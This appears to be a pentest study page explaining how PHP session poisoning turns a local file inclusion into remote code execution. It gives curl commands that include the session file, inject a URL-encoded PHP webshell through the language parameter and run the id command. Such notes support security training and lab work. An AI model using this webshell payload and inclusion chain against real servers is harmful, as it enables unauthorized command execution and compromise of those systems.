 ## Log Poisoning

1. Writing PHP code in a field we control that gets logged into a log file
2. Including the log file to execute the PHP code.&#x20;

The web application must have `READ` privileges over the logged files.

### PHP session poisoning

Most PHP web applications utilize `PHPSESSID` cookies which are stored in `session` files. The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix. These are stored:

* `/var/lib/php/sessions/` on Linux
* `C:\Windows\Temp\` on Windows&#x20;

Check if the `PHPSESSID` session file contains any user-controller data. For instance, if our `PHPSESSID` cookie's value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, we can include it via LFI.

{% code overflow="wrap" %}
```bash
# Including the log file
curl http://<ip:port>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
{% endcode %}

![](../../../.gitbook/assets/fi\_rce\_phpsessid.png)

We can see that the session file contains two values:

1. `page` -> shows the selected language page (not user-controlled)
2. `preference` -> shows the selected language (user-controlled via the `?language=` parameter)

Modify the user-controlled parameter (`language`) and see if it changes in the session file.

{% code overflow="wrap" %}
```bash
# Modifying the language parameter
curl http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
# Checking the session file
http://<ip:port>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
{% endcode %}

![](../../../.gitbook/assets/fi\_rce\_phpsessid\_1.png)

{% code overflow="wrap" %}
```bash
# Poisoning the log with a URL-encoded PHP webshell
curl http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
# Including the file for RCE
curl http://<ip:port>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
{% endcode %}
